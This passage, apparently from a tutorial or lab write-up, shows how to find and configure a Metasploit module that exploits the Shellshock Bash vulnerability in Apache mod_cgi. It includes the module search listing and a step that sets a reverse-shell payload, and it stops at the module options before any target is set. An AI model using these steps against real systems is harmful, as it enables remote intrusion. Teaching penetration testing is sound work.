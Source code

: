 Note:
: Before using metasploit, you might need to update it using `apt update; apt install metasploit-framework` command.

We can use metasploit `search` command to search for shellshock exploits. 
Launch [metasploit](https://www.metasploit.com/) using `msfconsole` command and use `search shellshock` (within metasploit console):

```console
search shellshock
Matching Modules
================

   #   Name                                               Disclosure Date  Rank       Check  Description
   -   ----                                               ---------------  ----       -----  -----------
   0   auxiliary/scanner/http/apache_mod_cgi_bash_env     2014-09-24       normal     Yes    Apache mod_cgi Bash Environment Variable Injection (Shellshock) Scanner
   1   auxiliary/server/dhclient_bash_env                 2014-09-24       normal     No     DHCP Client Bash Environment Variable Code Injection (Shellshock)
   2   exploit/linux/http/advantech_switch_bash_env_exec  2015-12-01       excellent  Yes    Advantech Switch Bash Environment Variable Code Injection (Shellshock)
   3   exploit/linux/http/ipfire_bashbug_exec             2014-09-29       excellent  Yes    IPFire Bash Environment Variable Injection (Shellshock)
   4   exploit/multi/ftp/pureftpd_bash_env_exec           2014-09-24       excellent  Yes    Pure-FTPd External Authentication Bash Environment Variable Code Injection (Shellshock)
   5   exploit/multi/http/apache_mod_cgi_bash_env_exec    2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
   6   exploit/multi/http/cups_bash_env_exec              2014-09-24       excellent  Yes    CUPS Filter Bash Environment Variable Code Injection (Shellshock)
   7   exploit/multi/misc/legend_bot_exec                 2015-04-27       excellent  Yes    Legend Perl IRC Bot Remote Code Execution
   8   exploit/multi/misc/xdh_x_exec                      2015-12-04       excellent  Yes    Xdh / LinuxNet Perlbot / fBot IRC Bot Remote Code Execution
   9   exploit/osx/local/vmware_bash_function_root        2014-09-24       normal     Yes    OS X VMWare Fusion Privilege Escalation via Bash Environment Code Injection (Shellshock)
   10  exploit/unix/dhcp/bash_environment                 2014-09-24       excellent  No     Dhclient Bash Environment Variable Injection (Shellshock)
   11  exploit/unix/smtp/qmail_bash_env_exec              2014-09-24       normal     No     Qmail SMTP Bash Environment Variable Injection (Shellshock)
```

We'll choose option number 5 using the `use 5` command.
We need to choose the payload to use once we're able to exploit. Let's use a reverse shell payload in order to have remote shell connection, which is the `set payload linux/x86/shell_reverse_tcp` command.
Using `options` command we can see what addtional information we must provide before we can use the exploit (under the Required column).

```console
Module options (exploit/multi/http/apache_mod_cgi_bash_env_exec):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   CMD_MAX_LENGTH  2048             yes       CMD max line length
   CVE             CVE-2014-6271    yes       CVE to check/exploit (Accepted: CVE-2014-6271, CVE-2014-6278)
   HEADER          User-Agent       yes       HTTP header to use
   METHOD          GET              yes       HTTP method to use
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                           yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPATH           /bin             yes       Target PATH for binaries used by the CmdStager
   RPORT           80               yes       The target port (TCP)
```